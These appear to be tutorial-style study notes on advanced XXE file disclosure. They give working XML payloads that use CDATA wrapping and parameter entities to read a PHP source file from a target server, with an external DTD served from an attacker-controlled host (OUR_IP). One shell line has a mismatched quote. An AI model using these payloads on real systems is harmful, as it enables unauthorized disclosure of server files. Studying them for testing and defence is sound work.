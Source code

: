 # Advanced File Disclosure

- not all XXE vulns are straightforward to exploit
- some file formats may not be readable through basic XXE
- web app may not output any input values in some instances

## Advanced Exfiltration with CDATA

- to output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (eg `<![CDATA[ FILE_CONTENT ]]>`)
- XML parser would consider this part raw data which may contain any type of data including special characters
- define a `begin` internal entity with `<![CDATA [`, and `end` internal entity with `]]>` and place our external entity file in between and it should be considered as a `CDATA` element as

> NOT WORKING CODE
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

- reference the `&joined;` entity
- it will not work as XML prevents joining internal and external entities
- to bypass, we can utilize XML Parameter Entities, special type of entity that starts with a `%` character and can only be used within the DTD

```xml
<!ENTITY joined "%begin;%file;%end;">
```
- this file is stored in our machine and then reference it as an external entity on the target web application, as

```sh
echo <!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python -m http.server 8000
```

- now, we can reference our external entity `xxe.dtd` and then printt the `&joined;` entity we defined above

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
